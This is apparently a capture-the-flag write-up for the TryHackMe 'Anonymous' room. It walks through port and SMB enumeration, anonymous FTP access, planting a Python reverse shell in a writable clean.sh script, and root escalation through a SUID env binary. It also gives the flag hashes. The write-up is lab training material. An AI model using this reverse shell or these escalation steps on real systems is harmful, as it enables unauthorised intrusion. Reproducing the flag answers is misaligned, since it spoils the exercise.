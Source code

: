 ```yaml
---
description: 'https://tryhackme.com/room/anonymous'
---
```


# Anonymous

## Task 1 Pwn

### Enumerate the machine.  How many ports are open?

```text
nmap -sC -sV -T5 -p1-65535 10.10.17.122
```

![](../.gitbook/assets/image%20%28254%29.png)

{% hint style="success" %}
4
{% endhint %}

### What service is running on port 21?

![](../.gitbook/assets/image%20%28253%29.png)

{% hint style="success" %}
ftp
{% endhint %}

### What service is running on ports 139 and 445?

![](../.gitbook/assets/image%20%28252%29.png)

{% hint style="success" %}
smb
{% endhint %}

### There's a share on the user's computer.  What's it called?

```text
enum4linux -S 10.10.17.122
```

![](../.gitbook/assets/image%20%28251%29.png)

{% hint style="success" %}

{% endhint %}

### user.txt 

![](../.gitbook/assets/image%20%28278%29.png)

![](../.gitbook/assets/image%20%28284%29.png)

![](../.gitbook/assets/image%20%28250%29.png)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

```text
nc -nvlp 4444

mget *
ls -all
vi clean.sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.4.204",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

ftp 10.10.178.0
anonymous
password
cd scripts
mput clean.sh
y
```

![](../.gitbook/assets/image%20%28262%29.png)

![](../.gitbook/assets/image%20%28275%29.png)

{% hint style="success" %}
90d6f992585815ff991e68748c414740
{% endhint %}

### root.txt

```text
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

```text

env /bin/sh -p
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28260%29.png)

{% hint style="success" %}
4d930091c31a622a7ed10f27999af363
{% endhint %}

